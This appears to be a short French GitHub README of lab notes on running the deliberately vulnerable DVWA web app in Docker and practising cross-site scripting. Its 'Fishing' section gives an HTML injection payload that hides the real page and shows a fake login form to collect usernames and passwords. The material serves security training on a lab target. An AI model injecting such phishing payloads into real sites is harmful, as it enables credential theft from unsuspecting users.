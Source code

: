 # Cyber X Security

## Ressources

- [Lien du package DVWA Image Docker](https://hub.docker.com/r/vulnerables/web-dvwa)
- []()
- []()
- []()
- []()


## Install on Docker

```bash
docker pull cyberxsecurity/dvwa
```

Démarrage d'un docker dvwa 
Name : dvwa1
Port : 81

```bash
docker container run -d --name=dvwa1 -p 81:80 cyberxsecurity/dvwa
```

## X-XSS Failures - Fishing

Utilies :

- [URL Encode/Decode](https://www.url-encode-decode.com/)

Formulaire test login d'integration lors d'une faille XSS trouvée

Attention à remplacer l'url avec l'encodage via Url Encode/Decode

```html

<!-- Suppression de tout les autres éléments html -->
<style>* {overflow: hidden;}</style>

<!-- Ajout de nos nouveaux element html -->

<div>
    <form>
        <p>Login : <input type="text" name="login"></p>
        <p>Password: <input type="text" name="password"></p>
        <button type="submit" >Se connecter</button>
    </form>
</div>


```